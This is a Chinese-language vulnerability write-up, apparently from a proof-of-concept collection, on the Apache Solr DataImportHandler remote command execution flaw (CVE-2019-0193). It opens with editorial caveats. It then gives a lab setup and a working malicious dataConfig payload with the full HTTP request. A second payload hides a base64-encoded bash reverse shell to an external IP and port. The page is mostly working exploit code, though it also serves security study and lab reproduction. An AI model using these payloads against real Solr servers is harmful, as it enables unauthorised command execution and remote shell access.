





# Apache Solr 远程命令执行漏洞 CVE-2019-0193

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：可选DIH模块启用、dataimport端点可达、dataConfig可提交、JS脚本引擎及外部feed可用；进程权限约束
- 证据范围：配置XML、完整请求和文件证明文本对应；不能仅按Solr版本认定所有安装受影响。

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- <8.2.0缺细分分支/模块和dataConfig开关条件；修复8.2默认禁用不等于人为重新启用仍安全
- 外部StackOverflow feed内容/网络变化会影响transformer触发，未固定测试输入
- 请求cookie与Solr认证关系未解释，应换明确占位
- 缺修复章节及导入/commit对索引状态的副作用

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 文中的明文凭据、会话或密钥已用中段星号脱敏，保留首尾供比对；示例不能直接照抄登录。仅替换为自有隔离环境凭据，已暴露的真实凭据应撤销或轮换。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

漏洞原理与分析可以参考：

- https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA
- https://paper.seebug.org/1009/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

本环境测试RCE漏洞。

## 漏洞影响

```
Apache Solr < 8.2.0
```

## 环境搭建

Vulhub运行漏洞环境：

```shell
docker-compose up -d
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现



如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

点击`Execute with this Confuguration`会发送以下请求包：

```http
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: localhost:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Referer: http://localhost:8983/solr/
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=sn************************pr

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```



执行`docker-compose exec solr ls /tmp`，可见`/tmp/success`已成功创建：



同样，构造反弹shell的POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```



成功接收反弹shell：




---

> 来源：Threekiii/Awesome-POC
